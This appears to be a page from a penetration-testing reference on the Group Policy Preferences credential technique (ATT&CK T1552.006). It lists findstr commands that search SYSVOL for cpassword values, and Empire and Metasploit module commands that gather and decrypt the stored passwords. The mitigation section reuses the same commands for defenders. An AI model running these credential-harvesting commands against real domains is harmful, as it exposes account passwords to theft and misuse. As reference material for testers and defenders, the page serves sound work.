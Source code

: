 ```yaml
---
description: https://attack.mitre.org/techniques/T1552/006/
---
```


# Group Policy Preferences

**ATT\&CK ID:** [T1552.006](https://attack.mitre.org/techniques/T1552/006/)

**Permissions Required:** <mark style="color:green;">**User**</mark>

**Description**

Adversaries may attempt to find unsecured credentials in Group Policy Preferences (GPP). GPP are tools that allow administrators to create domain policies with embedded credentials. These policies allow administrators to set local accounts.

These group policies are stored in SYSVOL on a domain controller. This means that any domain user can view the SYSVOL share and decrypt the password (using the AES key that has been made [public](https://msdn.microsoft.com/library/cc422924.aspx)).

## Techniques

### CMD

```
findstr /S cpassword %logonserver%\sysvol\*.xml
findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml
```

### Empire

```
usemodule powershell/privesc/gpp
usemodule python/privesc/windows/get_gpppasswords
```

### Metasploit

```
use post/windows/gather/credentials/gpp
```

## Further Reading

{% content-ref url="gpp-password.md" %}
[gpp-password.md](gpp-password.md)
{% endcontent-ref %}

## Mitigation

The same methods of searching for GPP passwords offensively, exists to find the same issue from a defense perspective.

### CMD

```
findstr /S cpassword %logonserver%\sysvol\*.xml
findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml
```
